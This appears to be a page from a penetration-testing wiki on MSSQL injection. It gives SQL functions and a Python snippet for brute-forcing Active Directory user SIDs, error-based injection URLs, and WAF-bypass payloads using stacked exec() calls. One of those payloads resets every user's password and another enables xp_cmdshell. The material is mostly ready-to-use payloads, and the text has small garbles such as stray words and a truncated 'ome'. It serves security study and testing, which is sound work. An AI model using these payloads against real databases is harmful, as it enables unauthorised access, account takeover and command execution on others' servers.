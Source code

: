 # MSSQL Injection

### Active Directory enumeration <a href="#active-directory-enumeration" id="active-directory-enumeration"></a>

It may be possible to **enumerate domain users via SQL injection inside an MSSQL** server using the following MSSQL functions:

* <mark style="color:red;">**`SELECT DEFAULT_DOMAIN()`**</mark>: Get the current domain name.
* <mark style="color:red;">**`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**</mark><mark style="color:red;">:</mark> If you know the name of the domain (_DOMAIN_ in this example) this function will return the **SID of the user Administrator** in hex format. This will look like, note how the **last 4 bytes** are the number **500** in **big-endian** format, which is the **common ID of the user administrator**. This function will allow you to **know the ID of the domain** (all the bytes except of the last 4).
* **`SUSER_SNAME(0x01050000000[...]0000e803)`** : This function will return the **username of the ID indicated** (if any), in this case, **0000e803** in big-endian == **1000** (usually this is the ID of the first regular user ID created). Then you can imagine that you can brute-force user IDs from 1000 to 2000 and probably get all the usernames of the users of the domain. For example, using a function like the following one:

```bash
def get_sid(n):
	domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
	user = struct.pack('<I', int(n))
	user = user.hex()
	return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```

### **Alternative Error-Based vectors** <a href="#alternative-error-based-vectors" id="alternative-error-based-vectors"></a>

ome examples of such functions:

* `SUSER_NAME()`
* `USER_NAME()`
* `PERMISSIONS()`
* `DB_NAME()`
* `FILE_NAME()`
* `TYPE_NAME()`
* `COL_NAME()`

Example use of function `USER_NAME()`:

{% code overflow="wrap" %}
```bash
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
{% endcode %}



<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

SSRF

#### <mark style="color:red;">`xp_cmdshell`</mark> <a href="#master-xp-cmdshell" id="master-xp-cmdshell"></a>

Obviously you could also use **`xp_cmdshell`** to **execute** something that triggers a **SSRF**. For more info **read the relevant section** in the page:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server" %}

Therefore it could be possible to bypass different WAFs that doesn't consider this form of stacking queries. For example:

Copy

{% code overflow="wrap" %}
```sql
# Adding a useless exec() at the end and making the WAF think this isn't a valid querie
admina'union select 1,'admin','testtest123'exec('select 1')--
## This will be:
SELECT id, username, password FROM users WHERE username = 'admina'union select 1,'admin','testtest123'
exec('select 1')--'

# Using weirdly built queries
admin'exec('update[users]set[password]=''a''')--
## This will be:
SELECT id, username, password FROM users WHERE username = 'admin'
exec('update[users]set[password]=''a''')--'

# Or enabling xp_cmdshell
admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
## This will be
select * from users where username = ' admin'
exec('sp_configure''show advanced option'',''1''reconfigure')
exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
```
{% endcode %}

### References <a href="#references" id="references"></a>

* [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
* [https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
